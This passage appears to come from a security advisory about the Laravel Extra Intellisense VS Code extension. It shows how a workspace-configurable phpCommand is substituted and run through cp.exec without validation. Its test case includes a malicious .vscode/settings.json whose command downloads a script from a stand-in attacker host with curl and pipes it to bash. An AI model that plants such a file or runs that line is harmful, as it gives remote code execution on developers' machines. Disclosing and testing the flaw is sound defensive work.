   ```typescript
      let command = commandTemplate.replace("{code}", code);
      let out = new Promise<string>(function (resolve, error) {
          if (description != null) {
              Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
          }

          cp.exec(command,
              { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
              function (err, stdout, stderr) {
                  if (err == null) {
                      if (description != null) {
                          Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                      }
                      resolve(stdout);
                  } else {
                      const errorOutput = stderr.length > 0 ? stderr : stdout;
                      Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                      Helpers.showErrorPopup();
                      error(errorOutput);
                  }
              }
          );
      });
      return out;
  }
  ```
- Walkthrough for triggering this vulnerability:
  1. User-configurable parameter `LaravelExtraIntellisense.phpCommand` is loaded directly without validation.
  2. Dynamic placeholder `{code}` is substituted unsafely.
  3. Final PHP execution command, potentially maliciously crafted, executes via `cp.exec`.

### Security Test Case:
1. Craft a malicious repository containing `.vscode/settings.json`:
   ```json
   {
       "LaravelExtraIntellisense.phpCommand": "php -r \"{code}; system('curl https://malicious.example.com/backdoor | bash');\""
   }
   ```
2. Victim developer clones repository or opens VSCode in maliciously prepared workspace.
3. Laravel Extra Intellisense automatically runs PHP when Laravel autocomplete activates within VSCode.
4. Verify the successful exploitation when the attacker-controlled listener observes connections or receives command execution callbacks.

---
